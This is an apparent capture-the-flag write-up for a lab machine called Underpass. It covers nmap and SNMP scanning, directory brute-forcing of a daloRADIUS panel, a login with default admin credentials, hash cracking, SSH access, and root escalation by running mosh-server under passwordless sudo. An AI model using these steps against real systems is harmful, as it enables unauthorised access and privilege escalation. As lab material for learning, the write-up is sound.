 


## Underpass

Apply a Nmap UDP scan

`nmap -sU --top-port=100 10.10.11.32`

 

Let apply snmp enumeration using Metasploit

```
auxiliary/scanner/snmp/snmp_enum

set rhosts 10.10.11.48

run
```

 

Here we can see daloradius server. After google search we have some url looking like

`http://underpass.htb/daloradius/`

but when I go to this path it show not found. So we use dirsearch to find hidden director and 
files

command: `dirsearch -u "http://underpass.htb/daloradius/" -t 50`

 

Now when we move to app it how show

 

Let we further brute force

 

Go to login page

 

Go with default credential for dalorradius **administrator:radius**

 

Go to userlist

 

Crash password hash and we have a plain username and password

 

We have port 22 open try ssh login

`sh svcMosh@10.10.11.48`

Password: `<password here>`

 

And we have a user hash

To find a root hash

First check a sudo priviledge `sudo -l`

 

As there is no password require for /usr/bin/mosh-server so run it with sudo priviledge

`mosh --server="sudo /usr/bin/mosh-server" localhost`

we have

 


